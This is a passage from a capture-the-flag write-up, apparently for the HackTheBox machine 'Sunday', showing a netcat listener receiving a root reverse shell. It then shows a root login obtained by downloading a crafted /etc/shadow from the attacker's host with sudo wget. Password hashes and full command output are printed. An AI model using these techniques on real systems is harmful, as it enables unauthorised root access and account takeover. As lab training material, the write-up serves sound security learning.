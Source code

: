 ```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 41346
# id
uid=101(sammy) gid=10(staff) euid=0(root) egid=3(sys) groups=10(staff)

```

#### Overwrite shadow

Overwriting `/etc/passwd` and/or `/etc/shadow` seemed to be the most common attempt to root this box, and it ended up with a lot of people screwing up the box and making it unusable. In fact, it led to people trying to do the finger enumeration in the initial stage and getting nothing back because the user list was jacked up.

In general, there are just better ways to do this. That said, if you want to go this route, here’s one way how.

Since we already have the shadow backup file, we’ll use that. It doesn’t have a root entry at the top, but let’s add one:

```

root:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

```

In this case, I’ve made the root entry the same as sunny, other than the username.

Then get it with wget, and then su and give it password “sunday”:

```

sammy@sunday:~$ sudo wget -O /etc/shadow http://10.10.14.5/shadow
--02:00:10--  http://10.10.14.5/shadow
           => `/etc/shadow'
Connecting to 10.10.14.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 392 [application/octet-stream]

100%[==========================================================================================================================================================================================================>] 392           --.--K/s

02:00:10 (42.45 MB/s) - `/etc/shadow' saved [392/392]

sammy@sunday:~$ su -
Password:
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
You have new mail.
root@sunday:~# id
uid=0(root) gid=0(root) groups=0(root),1(other),2(bin),3(sys),4(adm),5(uucp),6(mail),7(tty),8(lp),9(nuucp),12(daemon)

```
